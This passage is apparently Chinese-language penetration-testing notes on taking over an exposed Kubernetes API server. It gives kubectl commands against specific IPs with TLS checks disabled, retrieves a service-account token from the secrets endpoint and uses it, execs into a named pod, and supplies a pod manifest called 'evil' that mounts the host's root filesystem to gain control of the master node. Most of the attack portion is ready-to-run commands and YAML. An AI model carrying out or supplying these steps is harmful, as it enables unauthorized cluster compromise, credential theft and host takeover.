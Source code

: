 2、页面明明访问而且不需要权限，但是工具命令行需要验证（应该是工具的版本和目标的k8s版本不一致问题，**随意敲个账号敲几次**就进去了）<br />payload：
```java
.\kubectl.exe -s "https://192.168.5.174:6443" get pods --insecure-skip-tls-verify=true
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647847266178-92f2be49-0ce0-4336-b599-1bfe5a034b7b.png#averageHue=%23042759&clientId=u506b0e66-8291-4&from=paste&height=232&id=u3b9f3d00&originHeight=310&originWidth=1203&originalType=binary&ratio=1&rotation=0&showTitle=false&size=50132&status=done&style=none&taskId=u567ff5f8-ccb9-43ec-bcb4-55de442b267&title=&width=902)

通过 https://ip:6443/api/v1/secrets  获取token值
```c
kubectl -s https://ip:6443 --certificate-authority=ca.crt --token=eyJhbGciOiJSUzI1NiIsImtpZCI6IiJ9.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJjYXRhbG9nIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tNGtocmciLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjE5MzUzYTY3LWYxMDgtMTFlYS1hZmQ2LWZhMTYzZTAwZjlhOCIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpjYXRhbG9nOmRlZmF1bHQifQ.TZa0QjsgZCco6bydsQcNbV5wVU8ePyZh4Qj1WGPQdDJG4JRt0bNKGJMWnO5AE_p4Cy8qavSU_GYzZ_8n3bb7sLQKj30m5GSq3kCHnUJKb3vzl4ZQYShE6nk9x-Qv0krd9B18BNyLbQe98NLO1P0u8lB8jDLV-vYYTtiqc2Y2HTDW3J1k3c5pasO7NMv-OMMdpC6DCfOd5Icr_-Ojpw74K5t9-CtfGWSxtkr4pX7nMPINh1Bfxp7vWX5oPvCLzQ7CG5a-QEF6F4GT88_5G71PeK65R2X_xwAPglt0U9nRWdWwHuqtLb46p3nlN4EQz7559nIo61Uyr9BD9UCWQaw_ow get nodes
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1649920273224-efe668c7-85c9-4acc-93db-fdb84679a532.png#averageHue=%23e9e9e9&clientId=u97f3386b-d149-4&from=paste&height=82&id=u9b0c5534&originHeight=93&originWidth=607&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40575&status=done&style=none&taskId=uec528e38-4f46-489a-942b-9c7f86498d9&title=&width=536.6000061035156)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1649920261702-5e66f231-5131-4b16-b3d2-522736d14c24.png#averageHue=%231e1e1e&clientId=u97f3386b-d149-4&from=paste&height=457&id=u519a1d0a&originHeight=571&originWidth=1214&originalType=binary&ratio=1&rotation=0&showTitle=false&size=201356&status=done&style=none&taskId=uf2a015dd-5a30-44ba-83e6-6833f63d3a0&title=&width=971.2)
<a name="Qh4ri"></a>
### 利用方式一（如果pods存在的情况下：
kubectl -s ip:port  get pods  获取存在的容器<br /> .\kubectl.exe -s 192.168.64.134:8080 --namespace=ability exec -it abilitygateway-54d9f4754d-p2m9s bash    进入对应节点的容器环境


<a name="TnN9h"></a>
### 利用方式二 （pods不存在的情况下，通过nodes创建pods：
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647846273006-12ab9bb4-c9e3-4a8c-8674-b51395a9feb7.png#averageHue=%23032759&clientId=ua05e7c5c-bc1c-4&from=paste&height=159&id=uc7624097&originHeight=212&originWidth=1193&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36555&status=done&style=none&taskId=u9c929174-d2a3-460f-9615-55167af5908&title=&width=895)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647846240049-8e4cf78d-6365-49f8-8a65-2c330a380322.png#averageHue=%23032658&clientId=ua05e7c5c-bc1c-4&from=paste&height=279&id=u5645b4ce&originHeight=372&originWidth=1192&originalType=binary&ratio=1&rotation=0&showTitle=false&size=54085&status=done&style=none&taskId=u4da8e941-5b94-460e-b66b-142a20e42b6&title=&width=894)

可以获取容器宿主机的权限<br />创建一个1.yaml(网上的yaml很多格式不对，最好用我的）
```java
apiVersion: v1
kind: Pod
metadata:
  name: evil
spec:
  nodeName: master #部署在master节点
  containers:
  - image: nginx #简单的镜像
    name: container
    volumeMounts:
    - mountPath: /test #把系统的根目录挂载到容器的这个目录下
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
kubectl -s  ip:port create -f myapp.yaml  如果提交失败，就是客户端和服务端版本不一致的问题，可以尝试加上--validate=false<br />.\kubectl.exe -s "https://192.168.5.174:6443" create -f 1.yaml --insecure-skip-tls-verify=true --validate=false<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647847652755-c7249c27-e09f-40df-a3c5-7bc6e77c80f4.png#averageHue=%23022658&clientId=u506b0e66-8291-4&from=paste&height=350&id=u7a1a540e&originHeight=467&originWidth=1205&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68339&status=done&style=none&taskId=u38c32bc6-e916-481f-9fed-915f9cc0b30&title=&width=904)
